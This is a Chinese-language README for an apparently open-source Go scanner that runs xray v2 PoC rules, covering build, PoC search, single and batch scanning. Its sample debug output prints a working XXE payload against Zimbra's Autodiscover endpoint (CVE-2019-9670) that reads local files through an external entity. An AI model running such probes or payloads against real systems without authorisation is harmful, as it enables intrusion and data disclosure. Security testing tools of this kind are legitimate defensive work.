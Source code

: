 ## 简介
xray poc 发生了一次改版。导致之前的poc引擎不能使用。正好之前工作做过这方面的工作，重新写了一版xray poc v2版本的poc解析解工具。

特此开源出来，希望能和研究这方面技术的师傅多交流。

## 使用
### 编译
```shell
go build -x -ldflags "-s -w" -o xray_poc
```
### 查看帮助
```shell
➜  xray-poc-scan-engine ./xray_poc                              
xray poc规则发生了一次变化,导致之前的poc扫描器不能使用，故重新写一版。
                        xray v2版本的poc规则:https://docs.xray.cool/#/guide/poc/v2

Usage:
  xray_poc [command]

Available Commands:
  completion  generate the autocompletion script for the specified shell
  help        Help about any command
  poc         xray_poc search poc查看模块
  scan        xray_poc scan poc扫描模块

Flags:
  -h, --help   help for xray_poc

Use "xray_poc [command] --help" for more information about a command.
```

### poc模块
#### 搜索某个poc。支持模糊匹配
如：./xray_poc poc --search "xxe"
```shell
➜  xray-poc-scan-engine ./xray_poc poc --search "xxe"
 #   Poc Name                                
--- -----------------------------------------
 0   poc-yaml-apache-ofbiz-cve-2018-8033-xxe 
 1   poc-yaml-solr-cve-2017-12629-xxe        
 2   poc-yaml-zimbra-cve-2019-9670-xxe 
```
搜索到所有关于xxe的poc

### scan模块
### 扫描指定目标，使用指定pocName
如：./xray_poc scan --u "http://h11ba1.com" --poc "poc-yaml-zimbra-cve-2019-9670-xxe"
```go
➜  xray-poc-scan-engine ./xray_poc scan --u "http://h11ba1.com" --poc "poc-yaml-zimbra-cve-2019-9670-xxe"
2022/02/18 - 15:19:48.501  ▶ [Debug] request:POST /Autodiscover/Autodiscover.xml HTTP/1.1
Host: h11ba1.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169

<!DOCTYPE xxe [<!ELEMENT name ANY ><!ENTITY xxe SYSTEM "file:./" >]><Autodiscover xmlns="http://schemas.microsoft.com/exchange/autodiscover/outlook/responseschema/2006a"><Request><EMailAddress>test@test.com</EMailAddress><AcceptableResponseSchema>&xxe;</AcceptableResponseSchema></Request></Autodiscover>
2022/02/18 - 15:19:48.515  ▶ [Debug] res false response.body.bcontains(b"zmmailboxd.out") && response.body.bcontains(b"Requested response schema not available")
2022/02/18 - 15:19:48.515  ▶ [Debug] poc:poc-yaml-zimbra-cve-2019-9670-xxe rule url:http://h11ba1.com/Autodiscover/Autodiscover.xml expression execute failed
#   target-url          poc-name                            status
--- ------------------- ----------------------------------- --------
0   http://h11ba1.com   poc-yaml-zimbra-cve-2019-9670-xxe   false
```
### 扫描指定目标，不指定poc，默认使用所有poc
如：./xray_poc scan --u "http://h11ba1.com" 

### 批量扫描多个目标
如： ./xray_poc scan --f "test.txt" --poc "xxe"
```go
 #   target-url          poc-name                                  status 
--- ------------------- ----------------------------------------- --------
 0   http://h11ba1.com   poc-yaml-apache-ofbiz-cve-2018-8033-xxe   false  
 1   http://h22ba2.com   poc-yaml-apache-ofbiz-cve-2018-8033-xxe   false  
 2   http://h11ba1.com   poc-yaml-zimbra-cve-2019-9670-xxe         false  
 3   http://h22ba2.com   poc-yaml-zimbra-cve-2019-9670-xxe         false
```

## 扫描结果成功 `status` 为 `true`

## TODO
本项目两三天赶工出来，肯定存在很多bug。师傅们发现可以给我提issues。有空肯定及时更新。

待完善模块：
### [ ]增加proxy模块
### [ ]完善dns反连功能
### [ ]完善漏洞结果判断功能
### [ ]优化结果显示功能

## 参考项目
https://github.com/jjf012/gopoc

## 免责声明

本项目只用于学习交流目的。

由于传播、利用该工具（下简称本工具）提供的检测功能而造成的任何直接或者间接的后果及损失，均由使用者本人负责，开发者 不为此承担任何责任。
